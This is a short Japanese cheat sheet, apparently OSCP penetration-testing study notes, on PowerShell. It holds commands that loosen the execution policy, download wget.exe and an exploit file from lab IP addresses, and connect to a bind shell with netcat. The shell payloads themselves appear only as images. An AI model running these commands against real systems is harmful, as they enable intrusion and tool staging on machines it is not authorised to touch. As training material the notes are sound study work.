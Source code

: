 # PowerShell

### 実行権限

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### ファイル転送

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://192.168.119.127:5555/exploit.txt" -OutFile "exploit.txt")
```



##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像

![image-20230105081915662](img/powershell/image-20230105081915662.png)



### リバースシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084237435](img/powershell/image-20221226084237435.png)



### バインドシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084638580](img/powershell/image-20221226084638580.png)

* netcatでバインドシェルに接続する

  ```
  nc -nv 10.11.0.22 443
  ```

  

### チェックサム

```powershell
Get-FileHash -Algorithm "SHA256" -Path "C:\Users\student\exploit.txt"

$hash1 = ""
$hash2 = ""
$hash1 -eq $hash2
```



